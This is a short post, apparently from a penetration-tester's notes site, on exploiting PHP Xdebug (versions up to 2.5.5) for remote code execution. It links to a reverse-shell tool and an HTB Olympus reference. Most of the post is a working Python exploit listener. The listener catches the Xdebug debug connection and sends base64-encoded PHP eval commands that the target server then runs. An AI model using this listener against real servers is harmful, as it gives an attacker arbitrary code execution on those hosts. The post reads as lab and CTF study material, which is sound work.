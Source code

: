 ```yaml
---
layout: post
title: PHP XDebug
description: PHP XDebug
summary: PHP XDebug
tags: [php,rce,foothold]
minute: 1
---
```

## Overview
Xdebug is a PHP debugging tool that supports remote debugging of PHP code on the server through source code locally. Xdebug has powerful functions, and there have been many articles about its configuration recently. The idea of digging the attack surface of Xdebug was born a long time ago, and finally I did it today, a day suitable for paddling.

## Vulnerable Versions
* <= 2.5.5

## Example Exploit Scripts
```python
#!/usr/bin/python2
import socket

ip_port = ('0.0.0.0',9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

    data = raw_input('>> ')
    conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```

* [GitHub - gteissier/xdebug-shell: xdebug reverse shell](https://github.com/gteissier/xdebug-shell)

## Alternatives
* You can use [chrome](https://www.youtube.com/watch?v=7ifJOon5-G8&t=587s) also to exploit this

## References
* HTB Olympus
* https://paper.seebug.org/397/
* [The Exploits of Xdebug in PhpStorm](https://medium.com/@knownsec404team/the-exploits-of-xdebug-in-phpstorm-2ca140e91dc)
